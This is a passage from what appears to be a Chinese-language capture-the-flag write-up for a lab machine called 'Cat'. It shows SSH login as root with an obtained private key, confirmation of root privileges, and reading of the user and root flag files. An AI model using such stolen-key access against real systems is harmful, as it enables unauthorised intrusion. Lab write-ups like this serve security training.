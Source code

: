 然后，使用该私钥通过SSH连接到目标。

```shell
┌──(kali㉿kali)-[/tmp]
└─$ ssh root@192.168.205.149 -i /tmp/id_rsa
...
Last login: Sat Aug 23 05:35:10 2025 from 192.168.205.128
root@Cat:~# id
uid=0(root) gid=0(root) groups=0(root)
```

成功获取root权限。

# **四、夺取Flag**

最后，在对应的目录下读取user和root的flag。

```shell
root@Cat:~# cat /root/root.txt /home/catcatcat/user.txt
flag{root-471e997ce8c23ad558c2935b88814ab3}
flag{user-081d683d33dde135a273b484ee70123b}
```

渗透测试完成。
